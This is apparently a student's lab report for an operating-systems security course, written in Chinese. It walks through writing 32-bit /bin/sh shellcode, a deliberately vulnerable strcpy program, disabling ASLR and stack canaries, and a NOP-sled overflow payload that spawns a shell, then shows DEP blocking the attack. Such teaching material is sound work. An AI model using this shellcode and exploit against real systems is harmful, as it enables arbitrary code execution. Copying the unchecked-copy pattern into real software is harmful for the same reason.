国科大《操作系统安全》第二次作业

### 缓冲区溢出与数据执行保护DEP实验

#### 实验环境

虚拟机：VMware16.1.0

操作系统：Ubuntu 18.04

内核：5.4.0-146-generic

#### 原理

由于堆栈是由内存高地址向内存低地址方向增长，而数组的变量是从内存低地址向高地址方向增长。如果没有对数据的越界进行检查和限制，通过向程序的数组缓冲区写入超出其长度的内容，覆盖堆栈原来的返回地址，就会造成缓冲区溢出，从而破坏程序的堆栈。如果构造特殊的注入向量覆盖返回地址，使程序转而执行恶意代码，就达到攻击的目的。


#### 编写shellcode

为了得到一个shell，需要使用`sys_execve`系统调用，系统调用号在 IA-32 中为 11(0xb)，在x86-64 中为 59(0x3b)。对应C语言中的系统函数`int execve(const char *filename, char *const argv[ ], char *const envp[ ])`，用于在一个进程中启动新的程序。它的第一个参数是指程序所在的路径，第二个参数是传递给程序的参数，数组指针`argv`必须以程序filename开头，NULL结尾，最后一个参数为传递程序的新环境变量。

##### shellcode的汇编代码：

```c
#include <stdio.h>
void shellcode(){
	__asm__(
	"xor %eax,%eax\n\t"		// 将eax寄存器异或处理值为0
	"pushl %eax\n\t"		// 将0压入栈，push相当于pushl
	"push $0x68732f2f\n\t"	// 将“//sh”压入栈，//是为了凑4个字节对齐
	"push $0x6e69622f\n\t"	// 将“/bin”压入栈
	"movl %esp,%ebx\n\t"	// 将栈底指针ebx赋值为当前栈顶指针esp，系统调用的第一个参数ebx
	"pushl %eax\n\t"		// 将0压入栈中
	"pushl %ebx\n\t"		// 将字符串“//sh/bin/0”的首地址压入栈中
	"movl %esp,%ecx\n\t"	// 让ecx指向ebx，系统调用的第2个参数ecx中就保持了指针数组的地址
	"cltd\n\t"				// 让eax拓展到edx:eax，即edx设置为0，系统调用的第3个参数为零
	"movb $0xb,%al\n\t"		// 将execve的功能号赋值给eax的低八位
	"int $0x80\n\t"			// 使用软中断进行系统调用
	);
}
int main(int argc, char **argv){
	shellcode();
	return 0;
}
```

编译：

```
gcc -m32 -o shellcode shellcode.c
```

运行效果：



可以看到，成功获得了shell。

反汇编获得shellcode的16进制代码：

```sh
objdump shellcode -d| less
```



##### 16进制的shellcode:

```c
#include<stdio.h>
#include<string.h>
int main(){
	char shellcode[]=
		"\x31\xc0\x50\x68\x2f\x2f"
		"\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89"
		"\xe1\x99\xb0\x0b\xcd\x80";
	void (*fp)(void);
	fp = (void*)shellcode;
	fp();
	return 0;
}
```

编译：

```sh
 gcc -z execstack -m32 -o shellcode shellcode_asm.c
```

运行效果：



同样获得了shell。

#### 编写可溢出程序

```c++
//filename:escalate.cpp
#include <iostream>  
#include <cstring>  

void vulnerable(char *tmp) {  
    char input[400];  
    strcpy(input,tmp); //copies a malicious string into the character buffer  
}  

int main(int argc, char* argv[]) {  
    if (argc != 2) {
        std::cout << "Usage: ./prog argn";  
        return 1;  
    }  
    vulnerable(argv[1]); //passes our input to the vulnerable function  
    return 0;  
} 
```

函数中的`strcpy()`将直接把`tmp`中的内容copy到buffer中。这样只要`tmp`的长度大于字符数组长度，就会造成buffer的溢出，使程序运行出错。存在像strcpy这样的问题的标准函数还有`strcat()`，`sprintf()`，`vsprintf()`，`gets()`，`scanf()`等。

##### 关闭地址随机化ASLR保护机制：

```sh
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

##### 测试test.sh：

```sh
g++ escalate.cpp -o escalate -m32 -fno-stack-protector -z execstack
gdb -q --args ./escalate `python -c 'print "A"*412 + "BCDE"'`
```

1.编译程序：

- -z execstack：关闭栈保护执行，即栈内的数据页可以作为指令执行
- -fno-stack-protector：禁用栈保护canary，如果启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中这个cookie信息称为canary。

2.调用gdb调试：测试溢出长度，找出返回地址所在位置。

#### 测试过程

正常运行，无分段错误提示：



分段错误提示：



分段错误提示，返回地址`0x45444342`，正好对应`EDCB`的ASCII码，即字符串中的`BCDE`正好占据了返回地址所在的位置：



------

更新：

确定返回地址的位置：



------

现在需要我们更换返回地址到一个希望它开始执行的地方，通过`x/32z $esp`命令（配合enter键）查看栈中的数据，找到字符A（对应41）起始位置附近：



所需参数字符串共416字节，shellcode代码占24字节，返回地址占4字节，前面的符号用`\x90`即NOP命令代替。这样做，一旦启动可以一直执行空指令直到后面的shellcode代码，此时返回地址只需要指向任意一个NOP即可，故`0xffffd174`便是一个理想的返回地址。

更新参数字符串：

```sh
gdb -q --args ./escalate `python -c 'print "\x90"*388 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x74\xd1\xff\xff"'`
```

运行效果：



成功获得shell。

去掉编译选项`-z execstack`即开启数据执行保护机制后，无法跳转执行shellcode：



#### 注意

在gdb之外运行时，返回地址失效：



多次测试可以找到新的返回地址，NOP指令越多，找到新的返回地址越容易：



同时，上述操作尝试获取root权限的shell失败。(其他人好像都行，原因暂未发现，可告知1766237780@qq.com)

root执行下可以获得root权限的shell：

